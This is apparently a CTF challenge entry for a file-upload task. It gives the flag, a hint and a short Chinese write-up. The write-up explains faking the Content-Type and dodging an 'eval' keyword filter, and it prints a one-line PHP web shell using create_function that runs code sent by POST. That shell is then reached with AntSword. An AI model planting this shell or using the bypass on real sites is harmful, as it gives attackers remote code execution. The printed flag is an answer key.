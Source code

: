 # Description

Upload your file！

# Difficulty

⭐⭐

# Flag

```
flag{ohh3hhh_y5u_h3ve_d0ne_a_g00d_jo3}
```

# Platform (Optional)

ARCH

# Hint (Optional)

hint:check the header and the content of file!

# WriteUp

更改content/type为图片形式后上传，发现过滤了文件内容'eval'，编写<?php $fun = create_function('',$_POST['shell']);$fun();?>后上传蚁剑连接获得flag。（php版本>=7，无法使用assert函数）


